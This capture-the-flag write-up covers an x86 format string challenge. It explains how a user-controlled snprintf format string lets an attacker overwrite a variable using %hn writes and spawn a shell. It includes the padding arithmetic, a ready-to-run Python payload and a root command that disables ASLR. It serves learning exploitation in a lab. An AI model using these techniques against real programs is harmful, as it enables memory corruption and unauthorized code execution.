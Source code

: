 # ELF x86 - Format string bug basic 2

## Vulnerability summary

The program contains a user-controlled format string:

```c
snprintf(fmt, sizeof(fmt), argv[1]);
```

`argv[1]` is used as the format string with **no arguments** — you can use `%x`, `%p`, `%n`, `%hn`, `%hhn`, etc., to *read* stack values and to *write* arbitrary bytes to arbitrary locations using `%n` family format specifiers. The goal is to change:

```c
int check = 0x04030201;
```

to `0xDEADBEEF` so that the program executes `system("/bin/bash")`.

**Important test / info prints**:

```
printf("check at 0x%x\n", &check);
```

Run `./chall dummy` to get the actual printed address of `check`. You will use that address in the payload.

**Make testing stable**: disable ASLR while testing:

```bash
# run as root
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```


![same](./img/same.png)

now the value will be same


---


## offset

we can find the offfset like 

![leaks](./img/LEAKS.png)

here we can see that the buffer is at `9`th offset


## using `%n`

lets say that the address leak is `0xffffc818` so now we can write at this address by using this approch

```bash
0xffffc818 + (3735928559 - 4 )x + %9$n 
```

we have to write `0xdeadbeef` which is `3735928559` in decimal but we have printed 4 bytes (`0xdeadbeef`) before it so we also have to substract it 

`%x` prints an integer argument in hexadecimal. When you write %1234x, 1234 is treated as a field width, so printf will print the next integer argument right-justified in a field of width 1234 — that means it will output many padding characters (usually spaces) before the printed hex text. That produces the large character count exploited by %n/%hn.


we could also have used `%c` it also can be used here

where 9 is the offset and `%n` tells printf to write the number of bytes already printed into the memory location pointed to by the corresponding argument. 



## Why `0xffffc818 + (3735928559 - 4)x + %9$n` is impractical

* `3735928559` decimal = `0xDEADBEEF`. The expression attempts to print `3735928559 - 4 = 3735928555` characters before issuing a `%n`.
* Printing ~3.7 billion characters in a format string is **impractical** (very slow, may be truncated or prohibited by libc limits, and may crash).
* `%n` writes the full 32/64-bit value of the printed character count. On many systems you can’t rely on being able to produce that exact huge count.

**Safer alternatives**:

* Use two `%hn` writes to write the low and high 16 bits (typical and efficient).
* Or use four `%hhn` byte writes (one byte at a time) to avoid huge paddings.
* Or use `%n` combined with integer wrapping (but that still requires huge output or clever wraps).

Conclusion: do **not** use a single huge `%n`. Use `%hn` or `%hhn`.

---

## Two-`%hn` approach (recommended) — theory

To write `0xDEADBEEF` into a 32-bit `int` at address `addr`:

* split into 16-bit halves:
  `low  = 0xBEEF` (48879 decimal)
  `high = 0xDEAD` (57005 decimal)

* Place two little-endian addresses at the start of `argv[1]`:

  ```bash
  [addr (4 bytes little-endian)] [addr+2 (4 bytes little-endian)] [format-string...]
  ```

  The first `%hn` will write the current printed count into `addr` (low 16 bits), the second `%hn` will write into `addr+2` (high 16 bits).

* Because the addresses themselves already contribute bytes to the printed count, subtract those bytes when computing the first padding.


### padding math

If you put 2 addresses (8 bytes) at the start:

* initial_len = 8
* pad1 = (low - initial_len) mod 65536
  (e.g. `48879 - 8 = 48871`)
* After first write the printed count ≡ `low` (48879). To reach `high` (57005), pad2 = `(high - low) mod 65536`
  (e.g. `57005 - 48879 = 8126`)

So the format piece is:
`%48871x%9$hn%8126x%10$hn`



---



## Worked example 

You gave the expression:

```
0xffffc7d8 + 0xffffc7da + (48879 - 8)x + %9$hn + (57005 - 48879)x + %10$hn
```

That corresponds to:

* addr = `0xffffc7d8` (first address)
* addr+2 = `0xffffc7da` (second address)
* initial_len = 8 (two 4-byte addresses)
* pad1 = `48879 - 8 = 48871`
* pad2 = `57005 - 48879 = 8126`
* parameter indices used = `%9$` and `%10$` (these are examples — make sure they match your probe results)

### using python

```bash
./chall "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xd8\xc7\xff\xff\xda\xc7\xff\xff" + b"%48871x%9$hn%8126x%10$hn")')"
```

Explanation:

* `b"\xd8\xc7\xff\xff"` is `struct.pack("<I", 0xffffc7d8)`
* `b"\xda\xc7\xff\xff"` is `struct.pack("<I", 0xffffc7da)`
* `b"%48871x%9$hn%8126x%10$hn"` is the format string doing first and second `%hn`.

If `9`/`10` are wrong for your binary, change them.

---

## result:

![result](./img/result.png)